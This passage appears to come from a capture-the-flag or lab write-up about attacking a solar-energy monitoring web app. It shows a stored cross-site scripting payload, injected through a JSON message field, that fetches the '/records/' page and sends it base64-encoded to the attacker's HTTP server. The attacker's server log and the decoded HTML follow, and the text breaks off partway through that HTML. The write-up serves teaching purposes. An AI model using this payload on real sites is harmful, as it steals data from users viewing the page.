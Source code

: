 and sent the following JSON to the `data` topic:

```json
{
  "solarEnergy": "<img src=x onerror=\"(async () => { location.href='http://192.168.1.116/?data='+btoa(String.fromCharCode(...new Uint8Array(await (await fetch('/records/')).arrayBuffer())));})(); \" />",
  "consumedEnergy": 15
}
```

We received the following request on our HTTP service:

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.168 - - [03/Sep/2024 01:32:57] "GET /?data=PCFET0NUWVBFIGh0bWw+CjxodG1sPgoKPGhlYWQ+CiAgICA8dGl0bGU+TGlzdCBvZiBTb2xhciBFbmVyZ3kgRGF0YTwvdGl0bGU+CiAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Ii9zdHlsZS5jc3MiPgogICAgPGxpbmsgcmVsPSJ ... RG93bmxvYWQgUERGPC9hPgogICAgICAgICAgICAgICAgICAgIDwvdGQ+CiAgICAgICAgICAgICAgICA8L3RyPgogICAgICAgICAgICAgICAgICAgIDwvdGFibGU+CiAgICAgICAgPGEgaHJlZj0iLi4vZGFzaGJvYXJkLnBocCIgY2xhc3M9ImxvZ291dC1saW5rIj4mbHQ7IEJhY2s8L2E+CiAgICA8L2Rpdj4KPC9ib2R5PgoKPC9odG1sPg== HTTP/1.1" 200 -
```

We decoded the base64 and found the following code from the `/records/` page:

```html
<!DOCTYPE html>
<html>

<head>
    <title>List of Solar Energy Data</title>
    <link rel="stylesheet" href="/style.css">
    <link rel="stylesheet" href="/style3.css">
</head>

<body>
    <div style="min-width:400px;background:white;padding:15px;border-radius: 8px;box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);">
        <div style="text-align:center;"><object class="solar-icon" data="../sun.svg" type="image/svg+xml" style="width:75px;"></object></div>
        <h1>List of Solar Energy Data</h1>
        <table>
            <tr>
                <th>Record</th>
                <th>Actions</th>
            </tr>
                            <tr>
                    <td>2024-09-02T23:04:27.035Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A04%3A27.035Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                            <tr>
                    <td>2024-09-02T23:09:07.758Z</td>
                    <td>
                        <a href="?download=true&file=2024-09-02T23%3A09%3A07.758Z.json" class="download-btn">Download PDF</a>
                    </td>
                </tr>
                ...

                            <tr>
                    <td>2024-09-02T23:29:26.645Z</td>
                    <td>
```